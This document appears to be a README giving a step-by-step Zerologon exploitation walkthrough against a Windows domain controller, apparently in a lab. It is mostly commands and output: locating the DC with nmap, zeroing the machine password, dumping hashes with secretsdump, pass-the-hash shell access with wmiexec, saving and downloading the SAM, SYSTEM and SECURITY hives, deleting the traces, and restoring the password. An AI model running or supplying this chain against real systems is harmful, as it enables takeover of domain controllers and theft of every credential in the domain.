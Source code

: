 # ZEROLOGON Instructions:

## Before you begin:

1. you need the Domain Name for the Windows Domain Controller you are attacking.
2. you need the NetBIOS Name (PC name) for the Windows Domain Controller you are attacking.
3. you need the IP address for the Windows Domain Controller you are attacking. 
**That is all!!**

## Nmap to the rescue:
### Find the DC specifically:
All domain controllers listen on port 389
```
sudo nmap -p389 -sV 192.168.1.28
```
sudo nmap -p389 -sV 192.168.1.28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 22:25 PDT
Nmap scan report for 192.168.1.28
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: zerologon.learn.now, Site: Default-First-Site-Name)
MAC Address: 08:00:27:AA:C2:F6 (Oracle VirtualBox virtual NIC)
Service Info: Host: ZEROLOGON-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds


## change directory to the zerologon exploit folder:

```
cd ~/zerologon
```

## 1st run set_empty_pw.py to exploit the machine:

this will set the password to an empty string
python3 set_empty_pw.py <NetBIOS-name> <IP-Address>
```
python3 set_empty_pw.py ZEROLOGON-DC 192.168.1.28
```
look for:
Success! DC should now have the empty string as its machine password.


## 2nd run secretsdump.py to dump the hashes:
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 <Domain>/<NETBIOS-name>\$@<IP-Address>
it is important to have \$@ in between the NetBIOS name and the IP 

```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ZEROLOGON/ZEROLOGON-DC\$@192.168.1.28
```

looking for:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::


## 3rd run wmiexec.py to get terminal on victim machine:

ZEROLOGON/Administrator@192.168.1.28
wmiexec.py <Domain>/<user-name>@<IP-Address> -hashes <administrator-hash>

```
wmiexec.py ZEROLOGON/Administrator@192.168.1.28 -hashes aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976
```

Looking for:
C:\>


## Commands to run once on victim machine:
```
verify who you are logged in as:
C:\>whoami
zerologon\administrator

verify the system you are logged into:
C:\>hostname
ZEROLOGON-DC

Prep logon credentials for download:
C:\>reg save HKLM\SYSTEM system.save
The operation completed successfully.

C:\>reg save HKLM\SAM sam.save
The operation completed successfully.

C:\>reg save HKLM\SECURITY security.save
The operation completed successfully.

Download logon credentials:
C:\>get system.save
[*] Downloading C:\\system.save

C:\>get sam.save
[*] Downloading C:\\sam.save

C:\>get security.save
[*] Downloading C:\\security.save

Clean up:
C:\>del /f system.save
C:\>del /f sam.save
C:\>del /f security.save
```

## Exit out and go back to Linux terminal: 

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Looking for:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::

## Restore the original password:
python3 reinstall_original_pw.py <NetBIOS-name> <IP-Address> <admin-hash>
```
python3 reinstall_original_pw.py ZEROLOGON-DC 192.168.1.28 aad3b435b51404eeaad3b435b51404ee:6d4a95ae230e5ce2c1dbfd780e340cbc
```
